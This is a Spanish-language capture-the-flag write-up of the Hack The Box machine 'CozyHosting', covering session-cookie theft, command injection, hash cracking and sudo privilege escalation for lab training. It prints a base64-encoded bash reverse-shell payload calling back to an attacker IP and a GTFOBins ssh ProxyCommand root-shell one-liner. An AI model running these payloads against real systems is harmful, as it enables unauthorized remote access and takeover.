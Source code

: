 ```yaml
---
layout: single
title: Cozyhosting - Machines - Hack The Box
excerpt: "cozyhosting es una máquina de nivel facil, con sistema operativo Linux que tiene una vulnerabilidad en una aplicación web que lleva a la toma total del control del sistema."
date: 2023-12-22
classes: wide
header:
  teaser: /assets/images/htb-machines-cozyhosting/cozyhosting1.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - machines
 
tags:  
  - BurpSuite
  - Password Cracking
  - Steal Web Session Cookie
  - cozyhosting
  - Hashcat
  - gtfobins
    
---
```


![](/assets/images/htb-machines-cozyhosting/cozyhosting1.png)

cozyhosting es una máquina de nivel facil, con sistema operativo Linux que tiene una vulnerabilidad en una aplicación web que lleva a la toma total del control del sistema.

## 1. Enumeración 

Realizamos un escaneo de puertos con Nmap y evidenciamos dos puertos abiertos.

•	SSH (22)

•	HTTP (80)

![](/assets/images/htb-machines-cozyhosting/cozyhosting2.png)

Al ingresar al servicio por el puerto 80, nos redirige al dominio “cozyhosting.htb”.

![](/assets/images/htb-machines-cozyhosting/cozyhosting3.png)

Vamos a agregar este dominio a nuestro archivo "etc/hosts".

![](/assets/images/htb-machines-cozyhosting/cozyhosting4.png)

Ahora navegamos al dominio y empezamos la revisión del sitio.

![](/assets/images/htb-machines-cozyhosting/cozyhosting5.png)

## 2.	Acceso Inicial

Realizamos la búsqueda de directorio con la herrmaineta “dirsearh” y encontramos el siguiente directorio.

•	/actuator/sessions.

![](/assets/images/htb-machines-cozyhosting/cozyhosting6.png)

Al ingresar al directorio, observamos que contiene los JESSIONID de los usuarios autenticados.

![](/assets/images/htb-machines-cozyhosting/cozyhosting7.png)

Procedemos a utilizar la Cookie de sesión para intentar autenticarnos en el sitio.

![](/assets/images/htb-machines-cozyhosting/cozyhosting8.png)

Luego de iniciar sesión, observamos que existe una funcionalidad que permite una conexión SSH. Procedemos a ingresar la IP de nuestro equipo y un usuario cualquiera. 

![](/assets/images/htb-machines-cozyhosting/cozyhosting9.png)

Luego interceptamos la petición con BurpSuite.

![](/assets/images/htb-machines-cozyhosting/cozyhosting10.png)

Creamos un reverse Shell y lo codificamos en base64.

![](/assets/images/htb-machines-cozyhosting/cozyhosting11.png)

Ahora vamos a necesitar convertir la carga útil en un formato sin espacios, es decir reemplazar los espacios por ${IFS%??}. Para ello vamos a utilizar el siguiente servicio en línea.

•	https://www.urlencoder.org/es.

•	Carga útil: 	echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMjYvNzc3NyAwPiYxCg==" | base64 -d | bash.

![](/assets/images/htb-machines-cozyhosting/cozyhosting12.png)

Nos ponemos a la escucha en nuestra maquina atacante por el mismo puerto que configuramos en nuestro reverse Shell. Ahora enviamos la petición desde BurpSuite y esperamos recibir la conexión.

![](/assets/images/htb-machines-cozyhosting/cozyhosting13.png)

Observamos un archivo con extensión “.jar”.

![](/assets/images/htb-machines-cozyhosting/cozyhosting14.png)

Vamos a descargarlo e intentar leer el contenido. Iniciamos un servidor web en el equipo víctima.

![](/assets/images/htb-machines-cozyhosting/cozyhosting15.png)

Ahora descargamos el contenido del archivo.

![](/assets/images/htb-machines-cozyhosting/cozyhosting16.png)

Para poder leer el contenido del archivo, vamos a necesitar instalar en nuestra maquina atacante “JD-GUI” desde la siguiente página.

•	https://java-decompiler.github.io.

Luego de la instalacion, procedemos a leer el archivo descargado. Identificamos credenciales para la base de datos PostgresSQL.

![](/assets/images/htb-machines-cozyhosting/cozyhosting17.png)

Iniciamos sesión en el equipo víctima con estas credenciales, listamos el contenido de la tabla users y encontramos dos hashes.

![](/assets/images/htb-machines-cozyhosting/cozyhosting18.png)

Guardamos esos hash en un archivo.

![](/assets/images/htb-machines-cozyhosting/cozyhosting19.png)

Ahora con la herramienta Hashcat vamos a intentar crackear el hash de admin.

![](/assets/images/htb-machines-cozyhosting/cozyhosting20.png)

Pudimos obtener la contraseña.

![](/assets/images/htb-machines-cozyhosting/cozyhosting21.png)

Ahora listamos los usuarios de la maquina y observamos el usuario “Josh”. Vamos a utilizar la contraseña junto con el usuario Josh para intentar cambiar de sesión.

Ahora que estamos en la sesión del usuario Josh, vamos a obtener nuestra primera flag.

![](/assets/images/htb-machines-cozyhosting/cozyhosting22.png)

Nos vamos a conectar por ssh con las mismas credenciales solo para tener mejor control del equipo y una Shell más interactiva.

![](/assets/images/htb-machines-cozyhosting/cozyhosting23.png)


## 3. Escalada de privilegios

Identificamos que comando puede ejecutar el usuario actual con permisos de root.

Existe una carga útil en GTFOBINS que permite generar un shell interactivo a través de la opción ProxyCommand.

•	https://gtfobins.github.io/gtfobins/ssh/#sudo

•	Carga útil: ssh -o ProxyCommand=';sh 0<&2 1>&2' x

Ahora solo nos queda obtener nuestra segunda flag.

![](/assets/images/htb-machines-cozyhosting/cozyhosting24.png)
